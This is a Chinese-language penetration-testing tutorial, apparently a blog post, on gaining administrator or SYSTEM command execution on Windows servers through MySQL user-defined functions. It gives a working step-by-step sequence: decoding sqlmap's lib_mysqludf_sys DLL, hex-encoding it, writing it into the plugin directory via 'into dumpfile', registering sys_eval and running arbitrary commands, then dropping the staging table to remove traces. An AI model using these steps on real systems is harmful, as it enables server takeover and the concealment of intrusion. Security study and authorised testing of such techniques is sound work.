



# 什么是UDF

> udf 全称为：`user defined function`，意为用户自定义函数；用户可以添加自定义的新函数到Mysql中，以达到功能的扩充，调用方式与一般系统自带的函数相同，例如 `contact()`，`user()`，`version()`等函数。
>
> udf 文件后缀一般为 dll，由C、C++编写


# UDF在渗透中的作用

> 在一般渗透过程中，拿下一台windows服务器的webshell时，由于webshell权限较低，有些操作无法进行，而此时本地恰好存在mysql数据库，那么udf可能就派上用场了；由于windows安装的mysql进程一般都拥有管理员权限，这就意味着用户自定义的函数也拥有管理员权限，我们也就拥有了执行管理员命令的权限，这时新建管理员用户等操作也就轻而易举了，大多数人称为这一操作为udf提权，其实表达不够准确，应该称为通过mysql获得管理员权限。


# 必备的条件

> - 获得一个数据库账号，拥有对MySQL的insert和delete权限。以root为佳。
> - 拥有将udf.dll写入相应目录的权限。


# 数据库版本问题

> udf利用的其中一步，是要将我们的xxx.dll文件上传到mysql检索目录中，mysql各版本的检索目录有所不同：
>
> | 版本              | 路径                                                       |
> | ----------------- | ---------------------------------------------------------- |
> | MySQL < 5.0       | 导出路径随意；                                             |
> | 5.0 <= MySQL< 5.1 | 需要导出至目标服务器的系统目录（如：c:/windows/system32/） |
> | 5.1 < MySQL       | 必须导出到MySQL安装目录下的lib\plugin文件夹下              |
>
> **一般Lib、Plugin文件夹需要手工建立（可用NTFS ADS流模式突破进而创建文件夹）**


# 本地复现

> **1、获取Mysql安装路径**
>
> ```
> select @basedir
> 1
> ```
>
> **2、查看可操作路径**
>
> ```
> show global variables like "%secure%"
> 1
> ```
>
> **secure_file_priv值为null，表示mysql不允许导入导出，此时我们只能通过别的方法将udf.dll写入安装路径**
>
> **3、查看plugin目录路径**
>
> ```
> select @@plugin_dir
> 1
> ```
>
> **4、将dll上传方式推荐几种**
>
> 将dll上传到安装路径的方式：
>
> 通过webshell上传
>
> 以hex方式直接上传
>
> **sqlmap中现有的udf文件，分为32位和64位，一定要选择对版本，获取sqlmap的udf方式**
>
> **5、sqlmap中udf获取方式**
>
> 自动化注入工具Sqlmap已经集成了此功能。
>
> **在 \sqlmap\data\udf\mysql\windows\64目录下存放着lib_mysqludf_sys.dll_**
>
> 
>
> 但是为了防止误杀，这个文件是二进制文件，需要编码使用
>
> **可以利用sqlmap 自带的解码工具cloak.py，在sqlmap\extra\cloak中打开命令行，来对lib_mysqludf_sys.dll_进行解码在，然后在直接利用，输入下面的**
>
> ```
> python cloak.py -d -i C:\sqlmap\data\udf\mysql\windows\64\lib_mysqludf_sys.dll_
> ```
>
> 
>
> 接着就会在\sqlmap\data\udf\mysql\windows\64目录下生成一个dll的文件**lib_mysqludf_sys.dll**，这个我们就可以直接拿来利用
>
> 攻击者可以利用lib_mysqludf_sys提供的函数执行系统命令。
>
> 函数：
>
> **sys_eval，执行任意命令，并将输出返回。**
>
> **sys_exec，执行任意命令，并将退出码返回。**
>
> **sys_get，获取一个环境变量。**
>
> **sys_set，创建或修改一个环境变量。**
>
> 
>
> **注意：攻击过程中，首先需要将lib_mysqludf_sys ( 目标为windows时，lib_mysqludf_sys.dll；linux时，lib_mysqludf_sys.so）上传到数据库能访问的路径下。**
>
> 
>
> 把文件复制到plugin目录下
>
> 然后再数据库中输入
>
> ```
> create function sys_eval returns string soname 'udf.dll'
> ```
>
> 
>
> - 然后就可以任意命令执行了
>
> - **sys_eval，执行任意命令，并将输出返回。**
>
>   **sys_exec，执行任意命令，并将退出码返回。**
>
>   **sys_get，获取一个环境变量。**
>
>   **sys_set，创建或修改一个环境变量。**
>
> ```
> select sys_eval('ipconfig')
> ```
>
> 


# 实战复现

```
select hex(load_file('C:/udf.dll')) into dumpfile 'c:/udf.txt'
```

> 利用mysql的hex函数，把udf.dll转换为十六进制
>
> 
>
> **接下来就是把本地的udf16进制形式通过我们已经获得的webshell传到目标主机上。**
>
> **一、新建一个表，名为udftmp，用于存放本地传来的udf文件的内容。**
>
> ```sql
> create table udftmp (c BLOB)
> 1
> ```
>
> **二、在udftmp中写入udf文件内容**
>
> ```sql
> INSERT INTO udftmp values(unhex('udf文件的16进制格式'))
> 1
> ```
>
> **三、将udf文件内容传入新建的udf文件中，路径根据自己的@@plugin_dir修改 //对于mysql小于5.1的，导出目录为**C:\Windows\或C:\Windows\System32\
>
> ```sql
> select c from udftmp into dumpfile 'D:/phpstudy8/Extensions/MySQL5.7.26/lib/plugin/udf.dll'
> 1
> ```
>
> **四、执行下面语句，就可以system权限下命令任意执行，这电脑就沦陷了，执行命令上面已经说过，就不复述了**
>
> ```sql
> create function sys_eval returns string soname 'udf.dll'
> 1
> ```
>
> **五、删除痕迹，做好事不留名**
>
> ```sql
> DROP TABLE udftmp
> 1
> SELECT sys_eval('ipconfig');
> 返回网卡信息
> ```
